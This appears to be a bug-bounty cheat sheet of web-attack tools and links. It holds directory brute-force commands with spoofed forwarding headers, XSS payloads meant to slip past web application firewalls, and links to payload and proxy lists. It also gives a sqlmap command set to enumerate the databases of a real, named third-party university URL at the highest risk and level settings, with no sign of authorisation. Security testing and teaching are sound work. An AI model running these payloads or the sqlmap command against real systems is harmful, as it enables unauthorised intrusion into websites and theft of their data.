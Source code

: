 ## Dir Buster

dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1

ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json

[www.cspbypasser.com](http://cspbypass.com/)

Passive Url's: https://sawravchy.github.io/archivefinder/

Firefox Extensions:

https://github.com/kevin-mizu/domloggerpp?tab=readme-ov-file

https://chromewebstore.google.com/detail/sessionbox-multi-login-to/megbklhjamjbcafknkgmokldgolkdfig?hl=en

Hackbar: https://addons.mozilla.org/en-US/firefox/addon/maxs-hackbar/



Payloads:

https://github.com/coffinxp/lostools/blob/main/payloads/payloads/xor.txt
 https://tib3rius.com/sqli

 XSS: WAF <details/open/id="&quote;"ontoggle=[JS]>

<details/open/id="&quote;"ontoggle=[JS]>

<details open id="' &quote;'"ontoggle=[JS]>
 
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

 Practice: https://www.bugbountyhunter.com/

 Nuclei Teamplates: https://nuclei-templates.netlify.app/#q=pdteam

 Proxy Chains Socks: https://github.com/TheSpeedX/PROXY-List

 Writeups: https://www.bugbountyhunting.com/

 Encoder/Decoder: https://dencode.com/

Broken Link Hijacking: https://github.com/H4cker-Nafeed/Nafeed-Broken-Link

Burp Extensions: https://portswigger.net/bappstore/b4915681326648b1a12e4059d71bc909

Writeups: https://github.com/reddelexc/hackerone-reports/tree/master/tops_by_bug_type

SQL Map:sqlmap -u 
'https://cutm.ac.in/payu/skill/index.php?id=34' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3 --dbms  MySQL

Wayback Url: https://web.archive.org

Cyberchef : https://gchq.github.io/CyberChef/
reference : https://pentestbook.six2dez.com
jwt : Jwt.io

Notion Notes: https://ember-sunday-c9a.notion.site/BSCP-1017bd73434580d6b98fe22fab9560c0?pvs=4

